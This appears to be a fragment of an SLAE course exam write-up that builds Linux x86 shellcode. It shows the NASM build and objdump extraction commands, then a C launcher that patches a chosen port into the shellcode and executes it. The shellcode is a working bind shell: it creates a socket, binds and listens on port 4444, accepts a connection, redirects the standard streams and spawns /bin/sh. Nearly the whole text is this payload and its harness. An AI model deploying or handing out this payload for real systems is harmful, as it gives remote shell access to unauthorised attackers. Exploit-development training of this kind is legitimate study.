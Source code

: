 
**_Getting the Shellcode_**

```bash
root@kali:~/courses/slae/exam# nasm -f elf32 -o assignment1.o assignment1.nasm
root@kali:~/courses/slae/exam# ld -o assignment1 assignment1.o

root@kali:~/courses/slae/exam# objdump -d ./assignment1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xdb\x31\xc9\x31\xd2\xf7\xe3\xb3\x02\xb1\x01\xb2\x06\x66\xb8\x67\x01\xcd
\x80\x31\xd2\x89\xc3\x52\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\xb2\x10\x66\xb8
\x69\x01\xcd\x80\x31\xc9\x66\xb8\x6b\x01\xcd\x80\x31\xf6\x31\xd2\x66\xb8\x6c
\x01\xcd\x80\x89\xc3\xb1\x03\xfe\xc9\xf7\xe2\xb0\x3f\xcd\x80\xfe\xc1\xe2\xf4
\x31\xc9\x66\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x53\x89
\xe1\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"
```


**_shellcode.c_**

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <netinet/in.h>

#define PORT_OFFSET 27

int main(int argc, char* argv[]) {
    unsigned char shellcode[] = \
    "\x31\xdb\x31\xc9\x31\xd2\xf7\xe3\xb3\x02\xb1\x01\xb2\x06\x66\xb8\x67\x01
    \xcd\x80\x31\xd2\x89\xc3\x52\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\xb2\x10
    \x66\xb8\x69\x01\xcd\x80\x31\xc9\x66\xb8\x6b\x01\xcd\x80\x31\xf6\x31\xd2
    \x66\xb8\x6c\x01\xcd\x80\x89\xc3\xb1\x03\xfe\xc9\xf7\xe2\xb0\x3f\xcd\x80
    \xfe\xc1\xe2\xf4\x31\xc9\x66\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e
    \x89\xe3\x51\x53\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80";

    if (argc > 1) {
        unsigned short porti = htons(atoi(argv[1]));
        memcpy(&shellcode[PORT_OFFSET], &porti, 2);
    } else {
        printf("Please enter a port number!\n");
        printf("Usage: %s <port>\n\n", argv[0]);
        return -1;
    }

    printf("Shellcode Length:  %d\n", strlen(shellcode));

    int (*ret)() = (int(*)())shellcode;

    ret();
}
```
